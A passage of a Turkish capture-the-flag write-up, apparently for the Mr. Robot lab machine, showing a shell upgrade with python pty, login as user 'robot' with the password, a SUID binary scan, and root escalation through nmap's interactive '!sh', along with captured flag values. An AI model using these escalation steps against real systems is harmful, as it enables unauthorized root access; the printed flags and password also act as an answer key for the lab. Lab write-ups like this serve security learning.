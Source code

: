 ```bash
$ python -c 'import pty; pty.spawn("/bin/sh")'
$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
```
Flag2 :
```bash
822c73956184f694993bede3eb39f959
```
## 9.Adım SUID Dosyaları
Root erişimi sağlamak için aşağıdaki komutu kullanarak SUID dosyalarını taradık:
```bash
find / -perm -u=s -type f 2>/dev/null
```
Sonuç : 
```bash
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```
## 10.Adım Nmap ile Root Erişimi
Aşağıdaki komut ile nmap aracılığıyla root erişimi sağladık ve 3. flagi buluyoruz:
```bash
nmap --interactive
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
# cd /root
# ls
firstboot_done  key-3-of-3.txt
# cat key-3-of-3.txt
```
Flag3 :
```bash
04787ddef27c3dee1ee161b21670b4e4
```







